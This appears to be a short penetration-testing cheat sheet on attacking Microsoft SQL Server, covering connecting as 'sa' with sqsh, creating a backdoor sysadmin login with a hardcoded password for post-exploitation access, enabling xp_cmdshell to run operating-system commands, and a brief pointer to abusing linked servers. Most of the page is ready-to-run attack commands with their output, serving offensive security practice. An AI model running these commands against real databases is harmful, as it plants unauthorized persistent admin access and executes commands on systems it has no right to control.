 # MS-SQL Databases

## Connecting

```bash
sqsh -S 192.168.0.6 -U sa
```

## User Creation

For creating a sysadmin user to enable easy access to the database post-exploitation, we'll need to create a login and associated user for SQL authentication.  We can then assign this user sysadmin privileges.

```sql
CREATE LOGIN booj WITH PASSWORD = 'B00j123!'
CREATE USER booj for LOGIN booj
EXEC sp_addsrvrolemember @loginame = N'booj', @rolename = N'sysadmin'
```

## xp\_cmdshell

```sql
1> exec sp_configure 'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0)
1> reconfigure
2> go
1> exec sp_configure 'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1> exec master..xp_cmdshell 'whoami' 
2> go
```

## Server Links

The best reference for exploiting server links is [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/) They're not hard to pull off and can allow you to escalate your permissions quite easily. However, do note that you should absolutely use rpc\_out if it's enabled.

Since OpenQuery can only satisfy user queries, stored procedures or user creation is not possible and makes your escalation path much more difficult.




